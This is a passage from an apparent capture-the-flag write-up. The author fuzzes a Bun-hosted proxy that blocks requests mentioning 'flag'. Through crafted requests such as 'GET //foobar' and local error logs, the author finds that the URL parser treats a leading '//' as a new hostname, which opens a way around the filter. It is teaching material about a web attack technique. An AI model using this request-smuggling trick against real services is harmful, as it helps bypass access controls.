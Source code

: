 With that said, we'll need to somehow **bypass the external server's checks** in order to read the flag.

Since those servers were served via [Bun](https://bun.sh/), **maybe it has some weird request parsing**?

After I fuzzing it a little bit, I found some very weird errors, such as this:

**Request:**
```http
GET // HTTP/1.1
```

**Respond:**
```http
HTTP/1.1 500 Internal Server Error
```

Huh? This path (`//`) caused an error?

**If we host this challenge in a local environment, we'll see this error message:**
```shell
app-1  | 14 |       if (req.url.includes('flag')) return new Response('Nope', { status: 403 })
app-1  | 15 |       const headerContainsFlag = [...req.headers.entries()].some(([k, v]) => k.includes('flag') || v.includes('flag'))
app-1  | 16 |       if (headerContainsFlag) return new Response('Nope', { status: 403 })
app-1  | 17 |       const url = new URL(req.url)
app-1  | 18 |       if (url.href.includes('flag')) return new Response('Nope', { status: 403 })
app-1  | 19 |       return fetch(new URL(url.pathname + url.search, 'http://localhost:3000/'), {
app-1  |                     ^
app-1  | TypeError: "//" cannot be parsed as a URL.
app-1  |       at /app/app.js:19:16
app-1  |       at fetch (/app/app.js:13:14)
app-1  | GET - // failed
```

Hmm... Looks like the `URL` has a parsing error.

Now, what if we **append something in the `//`**? Like the following request:

```http
GET //foobar HTTP/1.1
```

**Error message:**
```shell
app-1  | ConnectionRefused: Unable to connect. Is the computer able to access the url?
app-1  |  path: "http://foobar/"
app-1  | GET - http://localhost//foobar failed
```

Huh??? So, **somehow the `URL` parser treats `//<hostname_here>` as a URL**.

**If we read the [mdn web docs about API `URL`](https://developer.mozilla.org/en-US/docs/Web/API/URL/URL#examples), we can see this invalid URL example:**
```javascript
new URL("//foo.com", "https://example.com");
// => 'https://foo.com/' (see relative URLs)
```

